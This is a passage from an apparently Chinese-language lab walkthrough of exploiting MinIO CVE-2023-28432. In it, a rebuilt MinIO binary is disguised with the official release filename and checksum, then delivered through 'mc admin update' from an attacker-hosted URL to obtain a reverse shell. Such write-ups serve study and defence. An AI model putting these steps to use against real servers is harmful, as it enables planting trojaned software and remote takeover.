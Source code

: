 6. 使用 `go build` 构建minio。注意：windows环境下要打包为linux下可执行文件，需要更改 `go env`。

```bash
// go env; 注：GOOS参数只能在cmd下修改，powershell下更改无效
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 
// 构建minio
go build -ldflags="-s -w " -trimpath 
// 将minio包装为sha256sum; 注意将文件名字伪装成与官网一致
mv minio minio.RELEASE.2023-03-22T06-36-24Z && shasum -a 256 minio.RELEASE.2023-03-22T06-36-24Z > minio.RELEASE.2023-03-22T06-36-24Z.sha256sum
```

![image-20230801110501299](../_Attachment/minio-CVE2023-28432.assets/image-20230801110501299.png)

7. 升级部署，成功反弹shell

   ```bash
   mc admin update scdx http://192.168.130.130:9000/minio.RELEASE.2023-03-22T06-36-24Z.sha256sum -y
   ```


![image-20230801110509797](../_Attachment/minio-CVE2023-28432.assets/image-20230801110509797.png)
